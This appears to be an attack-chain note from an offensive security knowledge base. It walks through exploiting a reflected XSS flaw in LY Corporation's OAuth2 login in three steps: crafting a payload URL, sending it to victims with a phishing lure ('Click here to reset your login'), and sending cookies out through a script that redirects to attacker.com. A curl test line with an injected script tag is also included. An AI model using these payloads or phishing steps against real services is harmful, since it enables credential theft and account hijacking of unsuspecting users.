

---
tags:
  - xss
  - reflected-xss
  - oauth2
  - credential-theft
type: attack_chain
tools:
  - '[[tools/Web-Browser]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
commands:
  - '[[commands/curl-test-xss-url]]'
platforms:
  - Web
complexity: medium
procedures:
  - '[[procedures/Craft-Malicious-XSS-URL]]'
  - '[[procedures/Deliver-XSS-Payload-to-Victim]]'
  - '[[procedures/Execute-JavaScript-for-Credential-Theft]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
description: >-
  Exploitation of a reflected XSS vulnerability in the OAUTH2 login flow to
  execute arbitrary JavaScript and steal victim credentials or hijack accounts
skill_level: intermediate
impact_level: high
id: ca5bc273-0bf8-487d-88bd-194d11623ece
created_at: '2025-12-11T06:10:22.373Z'
updated_at: '2025-12-11T06:10:22.373Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[TA0001]]'
  - '[[TA0002]]'
mitre_techniques:
  - '[[T1190]]'
  - '[[T1059.007]]'
---
# Reflected XSS in OAUTH2 Login Flow for Credential Theft and Account Hijack

## Overview

This attack chain demonstrates the exploitation of a reflected cross-site scripting (XSS) vulnerability in LY Corporation's OAUTH2 login flow. By crafting a malicious URL with an injected JavaScript payload, an attacker can trick a victim into visiting the link, leading to arbitrary code execution in the victim's browser. This enables credential theft or full account hijacking, as the payload can capture sensitive data like authentication tokens or session cookies.

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Web-Browser]]

### Target Environment

- Web-based application using OAUTH2 for authentication
- Victim must have an active browser session or be prompted to log in

### Initial Access Requirements

- Ability to craft and share URLs (e.g., via email or social engineering)
- No prior credentials needed, but victim interaction required

## Detailed Attack Procedures

## Step 1: Craft Malicious URL - [[procedures/Craft-Malicious-XSS-URL]]

### Objective

Construct a URL that includes a reflected XSS payload targeting the OAUTH2 login parameters, exploiting insufficient input sanitization.

### Instructions

Identify the vulnerable OAUTH2 endpoint, typically something like 'https://example.com/oauth2/login?param=value'. Append a JavaScript payload to a reflected parameter, such as 'redirect_uri' or 'state'.

Use [[commands/curl-test-xss-url]] to test the URL structure:

```bash
curl "https://example.com/oauth2/login?state=<script>alert('XSS')</script>"
```

Refine the payload for stealth, e.g., to steal cookies: '<script>document.location="https://attacker.com/steal?cookie="+document.cookie</script>'.

### Validation

Confirm the payload reflects unsanitized in the response HTML and executes in a browser.

## Step 2: Deliver XSS Payload to Victim - [[procedures/Deliver-XSS-Payload-to-Victim]]

### Objective

Socially engineer the victim into clicking the malicious URL, initiating the reflected XSS.

### Instructions

Shorten or obfuscate the URL if needed. Send via phishing email or message: 'Click here to reset your login: [malicious URL]'.

No specific command needed, but test delivery with [[commands/curl-test-xss-url]] to ensure the endpoint is reachable:

```bash
curl "[malicious-url]" -I
```

### Validation

Verify the victim visits the URL, triggering the reflection.

## Step 3: Execute JavaScript for Credential Theft - [[procedures/Execute-JavaScript-for-Credential-Theft]]

### Objective

Once executed, the payload captures credentials or session data and exfiltrates it to the attacker.

### Instructions

The injected script runs in the victim's browser context. For example, use a payload that sends cookies to an attacker-controlled server.

Monitor your server for incoming data from the exfiltration.

### Validation

Check attacker server logs for stolen data, confirming successful theft or hijack.

## Attack Chain Summary

### Key Achievements

1. Successful injection and execution of arbitrary JavaScript in the victim's browser.
2. Theft of sensitive credentials or session tokens.
3. Potential full account takeover via hijacked sessions.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
